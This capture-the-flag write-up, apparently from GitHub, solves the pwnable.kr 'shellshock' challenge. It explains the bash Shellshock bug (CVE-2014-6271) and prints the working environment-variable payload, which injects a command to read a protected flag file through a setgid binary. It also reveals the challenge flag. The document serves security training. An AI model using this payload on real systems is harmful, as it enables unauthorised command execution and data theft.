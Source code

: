 # shellshock

1. Login into server with passwd: `guest`:
```
$ ssh shellshock@pwnable.kr -p2222
$ scp -P2222 shellshock@pwnable.kr:~/* .
```

2. Taking a look at the source code, we see that the only thing taht the program does is setting the real user/group ID, the effective user/group ID, and the saved set-user/group-ID of the calling process to its effective group id.
That's good, because in other way we wouldn't be able to read the flag, as it needs to be read by user being in `shellshock_pwn` group. The program is running with th GID of the owner, which is `shellshock_pwn`. The same as GID of the flag (as shown below):
```
shellshock@prowl:~$ ls
bash  flag  shellshock  shellshock.c
shellshock@prowl:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
d---------   2 root root             4096 Oct 12  2014 .bash_history
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
shellshock@prowl:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
```
As title says, the shellshock was the vulnerability of `bash` found on 24.09.2014. It allowed an attacker to execute arbitrary commands on the vulnerable versions of the `bash` [https://en.wikipedia.org/wiki/Shellshock_(software_bug)].

The exploit which we can use if our bash version is vulnerable looks like this:
```
$ env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"

shellshock@prowl:~$ env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```
Yeah, we have vulnerable version, we can now easily try to use to get a flag:
```
$ env x='() { :;}; /bin/cat flag' ./shellshock

shellshock@prowl:~$  env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!   
Segmentation fault (core dumped)
```

And yeah, we got the flag:
```
FLAG: {only if I knew CVE-2014-6271 ten years ago..!! }
```